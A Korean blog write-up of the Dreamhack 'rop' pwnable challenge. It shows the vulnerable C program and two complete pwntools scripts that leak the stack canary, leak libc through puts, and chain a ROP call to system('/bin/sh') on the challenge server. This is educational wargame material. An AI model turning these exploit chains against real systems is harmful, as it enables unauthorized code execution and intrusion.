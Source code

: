 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN rop"
excerpt: "드림핵 포너블 rop 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2023-03-12 17:00
---
```


오랜만에 풀어보는 ROP 문제다. 다만 기존에 풀었던 64비트 ROP에 canary가 첨가되어 있다.
압축 파일을 풀어보면 libc와 코드, 바이너리, 도커 파일이 들어있다. 도커파일 이미지를 다운받아 확인해 보니 ubuntu bionic으로 18.04 버전을 사용하고 있다.

해당 문제 소스코드는 다음과 같다.

```c
// Name: rop.c
// Compile: gcc -o rop rop.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

코드는 매우 간단하다. [1] 섹션에서 카나리 값을 릭 하고 [2]에서 ROP를 일으키면 될것 같다.

버퍼의 크기는 0x30인데 0x100 길이의 값을 read함수로 받기 때문에 0x31만큼의 값을 주면 \x00 이 없어 카나리 7바이트와 입력한 마지막 1자리 값이 출력 될 것이다.

이후 릭한 카나리를 이용해서 ROP 공격을 시도한다. put plt를 이용해 read got 주소를 출력해 libc 베이스 주소를 구한다. 이후 libc의 system 함수 오프셋을 더해 /bin/sh를 인자로 하여 system 함수를 실행시키는 것이 내가 구상한 시나리오이다.

간단하게 익스플로잇 코드를 구성해보자.

```python
from pwn import *
context.update(arch='amd64', os='linux')
#context.log_level = 'debug'

p = remote("host3.dreamhack.games", 19094);
#p = process("./rop", env={'LD_PRELOAD':'./libc-2.27.so'})
#p = process("./house_of_force")
elf = ELF("./rop")
libc = ELF("./libc-2.27.so")

pr = 0x4007f3
read_got = elf.got["read"]
puts_plt = elf.plt["puts"]
main_func = elf.symbols["main"]

print(f"read got : {hex(read_got)}")
print(f"puts plt : {hex(puts_plt)}")
print(f"main func : {hex(main_func)}")

p.sendafter(b"Buf: ", b"A"*0x39)
p.recvuntil(b"A"*0x39)
leak = b"\x00"+p.recvn(7)
canary = u64(leak)
print(f"leak canary : {hex(canary)}")

payload1 = b"A"*0x38
payload1 += p64(canary)
payload1 += p64(0x400790)
payload1 += p64(pr)
payload1 += p64(read_got)
payload1 += p64(puts_plt)
payload1 += p64(main_func)

p.sendlineafter(b"Input ROP payload\nBuf: ", payload1)

leak_read_got = u64(p.recvuntil(b"\n")[:-1]+b"\x00\x00")
libc_base = leak_read_got - libc.sym["read"]
system = libc_base + libc.sym["system"]
binsh = libc_base+list(libc.search(b"/bin/sh"))[0]

print(f"libc main : {hex(libc_base)}")
print(f"system : {hex(system)}")
print(f"binsh : {hex(binsh)}")

p.sendafter(b"Buf: ", b"A"*0x30)
```

위 코드를 이용해 우선 카나리와 libc 베이스 주소를 구하고 다시 main함수로 돌려버린다.
puts 함수는 인자를 1개 이용하기 때문에 pop rdi ; ret 가젯을 이용했다. 

이후 릭된 값을들 다시 구성해 system 함수를 콜하게 하면 된다. 여기서 [1] 부분은 기존 코드 그대로 이용했고 [2]에서 바로 system 함수를 콜하려 했지만 문제가 발생했다. 그래서 libc를 구할때 사용했던 코드는 정상 동작해서 puts 함수가 동작 한 후 main_func 부분을 다시 pr 가젯으로 주고 system 함수를 콜 했다.

최종적인 익스플로잇 코드는 다음과 같다.

```python
from pwn import *
context.update(arch='amd64', os='linux')
#context.log_level = 'debug'

p = remote("host3.dreamhack.games", 19094);
#p = process("./rop", env={'LD_PRELOAD':'./libc-2.27.so'})
#p = process("./house_of_force")
elf = ELF("./rop")
libc = ELF("./libc-2.27.so")

pr = 0x4007f3
read_got = elf.got["read"]
puts_plt = elf.plt["puts"]
main_func = elf.symbols["main"]

print(f"read got : {hex(read_got)}")
print(f"puts plt : {hex(puts_plt)}")
print(f"main func : {hex(main_func)}")

p.sendafter(b"Buf: ", b"A"*0x39)
p.recvuntil(b"A"*0x39)
leak = b"\x00"+p.recvn(7)
canary = u64(leak)
print(f"leak canary : {hex(canary)}")

payload1 = b"A"*0x38
payload1 += p64(canary)
payload1 += p64(0x400790)
payload1 += p64(pr)
payload1 += p64(read_got)
payload1 += p64(puts_plt)
payload1 += p64(main_func)

p.sendlineafter(b"Input ROP payload\nBuf: ", payload1)

leak_read_got = u64(p.recvuntil(b"\n")[:-1]+b"\x00\x00")
libc_base = leak_read_got - libc.sym["read"]
system = libc_base + libc.sym["system"]
binsh = libc_base+list(libc.search(b"/bin/sh"))[0]

print(f"libc main : {hex(libc_base)}")
print(f"system : {hex(system)}")
print(f"binsh : {hex(binsh)}")

p.sendafter(b"Buf: ", b"A"*0x30)

payload2 = b"A"*0x38
payload2 += p64(canary)
payload2 += p64(0x400790)
payload2 += p64(pr)
payload2 += p64(read_got)
payload2 += p64(puts_plt)
payload2 += p64(pr)
payload2 += p64(binsh)
payload2 += p64(system)

pause()

p.sendafter(b"Input ROP payload\nBuf: ", payload2)


p.interactive()
```

[2] 부분에서 libc를 릭하면서 바로 system 함수를 호출하는 방법을 쓰신 분들도 봤는데 필자는 함수 흐름을 돌리는 것이 편해서 이렇게 구성했다.

위 코드를 이용하면 flag를 얻을 수 있다.
